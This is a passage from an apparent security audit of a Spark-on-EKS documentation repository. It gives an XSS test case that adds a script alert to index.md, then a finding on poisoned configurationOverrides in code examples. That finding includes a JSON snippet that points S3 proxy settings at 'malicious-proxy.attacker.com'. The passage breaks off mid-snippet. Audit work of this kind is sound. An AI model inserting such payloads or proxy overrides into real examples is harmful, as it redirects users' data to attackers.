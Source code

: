 - **Security Test Case:**
    1. Fork the repository.
    2. Navigate to `/code/content/index.md` in your forked repository.
    3. Edit `index.md` and add `<script>alert("XSS Vulnerability");</script>` at the end of the file.
    4. Commit the changes.
    5. Create a pull request to the main repository's `main` branch.
    6. Merge the pull request.
    7. Manually trigger website deployment using `mkdocs gh-deploy` or wait for automated deployment.
    8. Access the live documentation website, specifically the index page.
    9. Verify that an alert box with "XSS Vulnerability" appears, confirming the vulnerability.


### 2. Code Injection via Malicious Spark Configuration Overrides

- **Description:** An attacker can inject malicious configurations into the `configurationOverrides` section of code examples within documentation markdown files. If users copy-paste these examples, their Spark jobs will execute with the malicious configurations. The vulnerability can be triggered by:
    1. Modifying a markdown file (e.g., `/code/content/submit-applications/docs/spark/pyspark.md`).
    2. Injecting a malicious configuration in a code block, such as altering `spark.hadoop.fs.s3.proxy.host` to redirect S3 traffic to an attacker's proxy.
    3. A user copies the modified code example.
    4. The user executes the `aws emr-containers start-job-run` command in their environment.
    5. The Spark job starts with the injected malicious configuration overrides.

- **Impact:** By controlling configuration overrides, an attacker could:
    - Redirect job logs to an attacker-controlled server by manipulating monitoring configurations.
    - Modify security settings, potentially disabling authentication or encryption.
    - Alter job behavior to exfiltrate data by manipulating Spark configurations related to data output paths or external data access.

- **Vulnerability Rank:** High

- **Currently Implemented Mitigations:** None. The project provides documentation and sample code and does not prevent users from copy-pasting potentially malicious content.

- **Missing Mitigations:**
    - Implement a security review process for all documentation changes, especially code examples, to detect and prevent injection of malicious configurations.
    - Add a clear warning in the documentation advising users to carefully review and understand code examples before use, especially configurations affecting security or data handling.

- **Preconditions:**
    - An attacker needs to modify documentation files in the repository.
    - A user must copy and paste the malicious code example and execute it in their EMR on EKS environment.

- **Source Code Analysis:**
    - The vulnerability resides in the documentation content, specifically in code examples within markdown files in `/code/content/`.
    - Example vulnerable code snippet in `/code/content/submit-applications/docs/spark/pyspark.md`:
    ```json
    "configurationOverrides": {
      "applicationConfiguration": [
        {
          "classification": "spark-defaults",
          "properties": {
            "spark.hadoop.fs.s3.proxy.host": "malicious-proxy.attacker.com",
            "spark.hadoop.fs.s3.proxy.port": "8080"
           }
        }
      ],
      "monitoringConfiguration": {
        "cloudWatchMonitoringConfiguration": {
          "logGroupName": "/emr-containers/jobs",
          "logStreamNamePrefix": "demo"
